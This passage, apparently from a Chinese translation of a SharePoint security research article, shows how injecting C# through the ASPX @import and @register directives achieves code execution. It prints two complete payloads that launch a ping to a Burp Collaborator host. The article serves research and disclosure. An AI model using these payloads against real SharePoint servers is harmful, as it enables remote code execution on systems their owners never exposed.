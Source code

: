 然而这种方式并不是特别有用，因为服务端会阻止内联脚本。如果我们能将代码嵌入`/app_themes/`目录的`.skin`文件中，有可能实现代码执行，但这在SharePoint中是无法完成的一个任务。我们可以观察`System.Web.UI.ControlBuilder`[类](https://referencesource.microsoft.com/#System.Web/UI/ControlBuilder.cs,09e75757f9574fcb,references.)的`PreprocessAttribute`方法，分析其中的验证及数据提取过程。

我们花了不少时间，最终找到了一种解决方案，可以通过`[@import](https://github.com/import)`和`[@register](https://github.com/register)`指令实现代码注入。比如，我们可以通过如下payload，将代码注入到C#文件中（C#文件由.NET基于ASPX文件自动创建）：

```
&lt;%@ Page language="C#" classname="mytest_irsdl" %&gt; 
&lt;%@ import Namespace='System.Net;public/**/class/**/mytest_irsdl:global::System.Web.UI.Page,System.Web.SessionState.IRequiresSessionState,System.Web.IHttpHandler`{`public/**/static/**/object/**/@__stringResource;public/**/static/**/object/**/@__fileDependencies;public/**/static/**/bool/**/__initialized=false;object/**/test2=System.Diagnostics.Process.Start("ping","itsover.g9qrlom4l1slw29pf07k3xtoyf47sw.burpcollaborator.net");`}``}`namespace/**/foo`{`using/**/System.Linq;using/**/System.Web.Security;using/**/System.Collections.Generic;using/**/System.Text.RegularExpressions;using/**/System.Web.UI.WebControls;using/**/System.Xml.Linq;using/**/System.Web.UI;using/**/System;using/**/System.Web.UI.HtmlControls;using/**/System.Web;using/**/System.Configuration;using/**/System.ComponentModel.DataAnnotations;using/**/System.Text;using/**/System.Web.Profile;using/**/System.Web.Caching;using/**/System.Collections;using/**/System.Web.UI.WebControls.WebParts;using/**/System.Web.UI.WebControls.Expressions;using/**/System.Collections.Specialized;using/**/System.Web.SessionState;using/**/System.Web.DynamicData;//' %&gt;
```

或者可以使用如下方式：

```
&lt;%@ Page language="C#" classname="mytest_irsdl" %&gt; 
&lt;%@ Register Tagprefix="MDSec" Namespace='System.Windows.Data;public/**/class/**/mytest_irsdl:global::System.Web.UI.Page,System.Web.SessionState.IRequiresSessionState,System.Web.IHttpHandler`{`public/**/static/**/object/**/@__stringResource;public/**/static/**/object/**/@__fileDependencies;public/**/static/**/bool/**/__initialized=false;object/**/test2=System.Diagnostics.Process.Start("ping","xxx.g9qrlom4l1slw29pf07k3xtoyf47sw.burpcollaborator.net");`}``}`namespace/**/foo`{`using/**/System.Linq;using/**/System.Web.Security;using/**/System.Collections.Generic;using/**/System.Text.RegularExpressions;using/**/System.Web.UI.WebControls;using/**/System.Xml.Linq;using/**/System.Web.UI;using/**/System;using/**/System.Web.UI.HtmlControls;using/**/System.Web;using/**/System.Configuration;using/**/System.ComponentModel.DataAnnotations;using/**/System.Text;using/**/System.Web.Profile;using/**/System.Web.Caching;using/**/System.Collections;using/**/System.Web.UI.WebControls.WebParts;using/**/System.Web.UI.WebControls.Expressions;using/**/System.Collections.Specialized;using/**/System.Web.SessionState;using/**/System.Web.DynamicData;//' Assembly="PresentationFramework,Version=4.0.0.0,Culture=neutral,PublicKeyToken=31bf3856ad364e35" %&gt;
```

效果如下图所示：

[![](https://p4.ssl.qhimg.com/t01144ea84a471559f6.png)](https://p4.ssl.qhimg.com/t01144ea84a471559f6.png)



## 0x04 总结及后续工作

在本文中，我们分析了SharePoint站点页面的安全性，演示了如何在不使用服务端脚本的编译模式下，通过代码注入实现代码执行目标。

后续我们可以继续研究服务端已允许的控件的作用，其中某些控件可能会导致某些漏洞，比如SSRF。

如果大家对SharePoint中`VirtualPathProvider`的工作方式比较感兴趣，可以进一步了解`SPVirtualPathProvider`的相关内容。



## 0x05 参考资料
- [Introduction to SharePoint Services 3.0 for Developers](https://books.google.co.uk/books?id=zdXoAQAAQBAJ)
- [Stack Exchange Q&amp;A](https://sharepoint.stackexchange.com/questions/79514/difference-between-pageparserpath-and-safecontrol)